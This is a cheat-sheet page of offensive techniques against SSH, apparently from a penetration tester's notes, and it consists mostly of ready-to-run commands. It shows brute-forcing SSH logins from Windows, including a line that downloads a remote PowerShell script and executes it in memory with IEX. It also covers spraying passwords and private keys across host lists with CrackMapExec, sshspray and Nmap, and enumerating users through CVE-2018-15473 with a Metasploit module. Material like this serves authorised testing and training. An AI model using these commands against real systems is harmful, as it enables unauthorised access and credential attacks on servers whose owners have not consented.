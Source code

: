 ```yaml
---
description: Secure Shell
---
```


# SSH

- [https://www.sans.org/blog/using-the-ssh-konami-code-ssh-control-sequences/](https://www.sans.org/blog/using-the-ssh-konami-code-ssh-control-sequences/)




## Brute Force

- [https://github.com/InfosecMatter/SSH-PuTTY-login-bruteforcer](https://github.com/InfosecMatter/SSH-PuTTY-login-bruteforcer)

From Windows:

```
PS > curl https://the.earth.li/~sgtatham/putty/latest/w64/plink.exe -o plink.exe
PS > IEX(New-Object Net.WebClient).DownloadString("https://github.com/InfosecMatter/SSH-PuTTY-login-bruteforcer/raw/master/ssh-putty-brute.ps1")
PS > ssh-putty-brute -h 192.168.1.11 -p 22 -u root -pw 'Passw0rd!'
PS > ssh-putty-brute -h 192.168.1.11 -p 22 -u root -pw (gc .\passwords.txt)
```




## Password Spray / Key Spray

- [https://github.com/mcorybillington/sshspray](https://github.com/mcorybillington/sshspray)

A list of targets with different SSH ports:

```
$ das parse ssh -raw | cut -c 7- | awk -F: '{print $1}' > ssh_hosts
$ das parse ssh -raw | cut -c 7- | awk -F: '{print $2}' > ssh_ports
$ paste ssh_hosts ssh_ports | while read host port; do cme ssh $host -u root -p root --port $port; done
```

Spray with a private key and passphrase `Passw0rd!` using CME:

```
$ cme ssh 192.168.1.11 -u root -p 'Passw0rd!' --key-file id_rsa
```

Using sshspray:

```
$ python3 sshspray.py -u root -i ~/.ssh/id_rsa -t ssh.txt
$ parallel --eta -j3 python3 sshspray.py -i {} -u root -t ssh.txt ">" output_{}.log  ::: id_rsa1 id_rsa2 id_rsa3
```

Using Nmap:

```
$ nmap -p 22 --script ssh-publickey-acceptance --script-args "ssh.usernames={'root', 'user'}, ssh.privatekeys={'./id_rsa1', './id_rsa2'}" 192.168.1.11
```




## Enum Users

**CVE-2018-15473**

```
msf > use auxiliary/scanner/ssh/ssh_enumusers
msf > set CHECK_FALSE true
msf > set RHOSTS file:ssh.txt
msf > set THREADS 25
msf > set USERNAME root
msf > run
```
